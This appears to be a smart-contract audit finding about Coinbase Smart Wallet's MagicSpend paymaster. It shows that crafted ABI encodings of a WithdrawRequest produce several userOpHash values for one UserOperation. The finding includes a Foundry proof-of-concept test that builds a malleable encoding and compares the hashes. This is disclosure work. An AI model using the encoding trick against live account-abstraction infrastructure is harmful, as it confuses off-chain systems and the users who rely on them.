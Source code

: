 Malicious/nonstandard WithdrawalRequest encoding by bundlers, dapps, or frontends result in non-deterministic `userOpHash`s. Since ABI encoding is somewhat loose, encoding the calldata struct in different ways results in multiple possible `userOpHash` values for the same WithdrawalRequest and therefore for the same UserOperation. 

As a result, the hash emitted by the `IEntryPoint.UserOperationEvent()` event can be manipulated to break and confuse offchain infrastructure. This type of confounding attack has been observed in earlier versions of the ERC4337 EntryPoint contract (<v0.6). Since this behavior interferes with multiple moving parts within the account abstraction standard, a very similar issue was expressly escalated to a semi-urgent fix. See the below:

https://github.com/eth-infinitism/account-abstraction/issues/237#issuecomment-1460273542
https://github.com/eth-infinitism/account-abstraction/pull/233#issuecomment-1459155222

While the original behavior was patched in EntryPoint v0.6, the potential for deviation of WithdrawRequest calldata encoding reintroduces similar behavior from higher up the call stack to the app layer (Smart Wallet).

This issue is marked as low/non-critical since it largely affects offchain software and still must be explicitly signed by wallet owners. It is however worth noting that the number of available `userOpHash`s can be compounded by the options to use malleable ECDSA signatures (explicitly allowed by the Solady::SignatureCheckerLib implementation) as well as EIP2098 compact signatures, increasing the chance of collision.

PoC which can be run from a new "PoC" directory like so: `~/project-root/test/PoC/PoC.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Test, console2} from "forge-std/Test.sol";
import {SignatureCheckerLib} from "solady/utils/SignatureCheckerLib.sol";
import {UserOperation, UserOperationLib} from "account-abstraction/interfaces/UserOperation.sol";
import {IStakeManager} from "account-abstraction/interfaces/IStakeManager.sol";
import {calldataKeccak} from "account-abstraction/core/Helpers.sol";
import {MockEntryPoint} from "../mocks/MockEntryPoint.sol";
import "test/MagicSpend/PaymasterMagicSpendBase.sol";
import "../CoinbaseSmartWallet/SmartWalletTestBase.sol";

contract PoC is Test {
    /// forge-config: default.fuzz.runs = 10_000_000

    // dummy event for lazy selector encoding
    event UserOperationEvent(bytes32 indexed userOpHash, address indexed sender, address indexed paymaster, uint256 nonce, bool success, uint256 actualGasCost, uint256 actualGasUsed);

    uint256 msOwnerPrivateKey = 0xdeadbeef;
    address msOwner = vm.addr(msOwnerPrivateKey);
    MagicSpend magicSpend = new MagicSpend(msOwner);
    CoinbaseSmartWallet account = new MockCoinbaseSmartWallet();
    CoinbaseSmartWallet validUserAccount = new MockCoinbaseSmartWallet();
    IEntryPoint entryPoint = IEntryPoint(0x5FF137D4b0FDCD49DcA30c7CF57E578a026d2789);

    // userop signature params
    uint256 signerPrivateKey = 0xa11ce;
    address signer = vm.addr(signerPrivateKey);
    uint256 validUserPrivateKey = 0xbeef;
    address validUser = vm.addr(validUserPrivateKey);
    address bundler = vm.addr(0xc0ffeebabe);

    // userop
    uint256 callGasLimit = 49152;
    uint256 verificationGasLimit = 378989;
    uint256 preVerificationGas = 273196043;
    uint256 maxFeePerGas = 1000304;
    uint256 maxPriorityFeePerGas = 1000000;
    
    // withdraw signature params
    address withdrawer = address(0xb0b);
    address asset = address(0x0);
    uint256 amount = 1 ether;
    uint256 maxCost = amount - 10;
    uint256 nonce = 0;
    uint48 expiry = uint48(block.timestamp + 1);

    // to be populated per test
    bytes initCode;
    bytes userOpCalldata;
    bytes paymasterAndData;
    bytes signerSig;
    bytes msOwnerSig;
    bytes[] owners;
    CoinbaseSmartWallet.Call[] calls;

    // baseline storage structs for convenience (update members as needed)
    UserOperation userOp = UserOperation({
        sender: address(account),
        nonce: nonce,
        initCode: initCode,
        callData: userOpCalldata,
        callGasLimit: callGasLimit,
        verificationGasLimit: verificationGasLimit,
        preVerificationGas: preVerificationGas,
        maxFeePerGas: maxFeePerGas,
        maxPriorityFeePerGas: maxPriorityFeePerGas,
        paymasterAndData: paymasterAndData,
        signature: signerSig // empty; must be populated per test
    });
    
    MagicSpend.WithdrawRequest withdrawRequest = MagicSpend.WithdrawRequest({
        asset: asset,
        amount: amount,
        nonce: nonce,
        expiry: expiry,
        signature: msOwnerSig // empty; must be populated per test
    });

    function setUp() public virtual {
        vm.etch(0x5FF137D4b0FDCD49DcA30c7CF57E578a026d2789, Static.ENTRY_POINT_BYTES);
        
        vm.deal(address(account), 1 ether);
        vm.deal(address(validUserAccount), 2 ether);
    }

function test_nonDeterministicHashesViaMaliciousWithdrawalEncoding() public {
        _initializeSmartWallet(signer, account);
        _initializeSmartWallet(validUser, validUserAccount);

        // standard ABI encoding
        MagicSpend.WithdrawRequest memory request = withdrawRequest;
        bytes32 requestHash = magicSpend.getHash(address(validUserAccount), request);
        (uint8 reqV, bytes32 reqR, bytes32 reqS) = vm.sign(msOwnerPrivateKey, requestHash);
        request.signature = abi.encodePacked(reqR, reqS, reqV);

        // malicious encoding (ABI-recognizable)
        // note first _craftMaliciousRequest uses previous (incorrect) sig just for slot encoding alignment
        bytes memory unsignedMaliciousRequest = _craftMaliciousRequest(amount, nonce, reqR, reqS, reqV, expiry, true, false);
        // abi can decode maliciousRequest
        MagicSpend.WithdrawRequest memory mal = abi.decode(unsignedMaliciousRequest, (MagicSpend.WithdrawRequest));

        bytes32 maliciousHash = magicSpend.getHash(address(validUserAccount), mal);
        // prove non-deterministic WithdrawRequest hashes
        assertNotEq(maliciousHash, requestHash);
        
        // populate mal with updated signature payload signed on new hash
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(msOwnerPrivateKey, maliciousHash);
        bytes memory maliciousRequest = _craftMaliciousRequest(amount, nonce, r, s, v, expiry, true, false);

        // prove non-deterministic UserOp hashes
        (, bytes32 opHash) = _getValidUserOpSigned(abi.encodePacked(address(magicSpend), abi.encode(request)));
        (, bytes32 malOpHash) = _getValidUserOpSigned(abi.encodePacked(address(magicSpend), maliciousRequest));
        assertNotEq(opHash, malOpHash); 

        console2.logString('expected userOpHash:');
        console2.logBytes32(opHash);
        console2.logString('actual userOpHash:');
        console2.logBytes32(malOpHash);
        console2.logString('each new encoding produces multiple potential userOpHashes and even more valid signatures');
    }

function _craftMaliciousRequest(
        uint256 amt, 
        uint256 nonce, 
        bytes32 r, 
        bytes32 s, 
        uint8 v, 
        uint48 /*expiry*/, 
        bool packExpiry,
        bool compactSig2098
    ) internal pure returns (bytes memory) {
        // impl not necessary for PoC as non-determinism of `WithdrawRequest` hash & therefore `userOpHash` is proven but for example:
        if (!packExpiry) { /* use unpacked uint8 V & expiry */ }
        
        // further unique `WithdrawRequest` encodings lead to more permutations of `userOpHash` and request hash
        if (compactSig2098) { 
            // use 64 byte signature as opposed to 65 byte
            s = _convertTo2098CompactSig(s, v);
        }

        return abi.encodePacked(
            uint256(0x20), // start ofs
            uint256(0x80), // sig ofs
            uint256(uint160(address(0x0))), // asset
            amt, // amount (== 1 ether)
            nonce, // nonce (== 0)
            uint256(0x41), // sig len
            uint256(r), // sig R
            uint256(s), // sig S
            uint256(bytes32(bytes1(v))) | uint256(uint48(0x02))  // packed sig V & expiry
            // uint256(uint48(0x02)) // example optional unpacked expiry slot (prev slot would be sig V only)
        );
    }

    function _convertTo2098CompactSig(bytes32 s, uint8 v) internal pure returns (bytes32 newS) {
        // create EIP2098 compact signature by eliminating `v` and encoding the ECDSA yParity into topmost bit of `s`
        newS = v == 28 ? bytes32(uint256(s) + (8 << 252)) : s;
    }

    function _initializeSmartWallet(address owner, CoinbaseSmartWallet target) internal {
        delete owners;
        owners.push(abi.encode(owner));
        target.initialize(owners);
    }

    function _getValidUserOpSigned(bytes memory _paymasterAndData) internal view returns (UserOperation memory validOp, bytes32 retOpHash) {
        // populate valid userOp fields using storage struct
        validOp = userOp;
        validOp.sender = address(validUserAccount);
        validOp.paymasterAndData = _paymasterAndData;

        // populate valid userOp signature
        retOpHash = entryPoint.getUserOpHash(validOp);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(validUserPrivateKey, retOpHash);
        bytes memory sig = abi.encodePacked(r, s, v);
        validOp.signature = abi.encode(CoinbaseSmartWallet.SignatureWrapper(0, sig));
    }
```


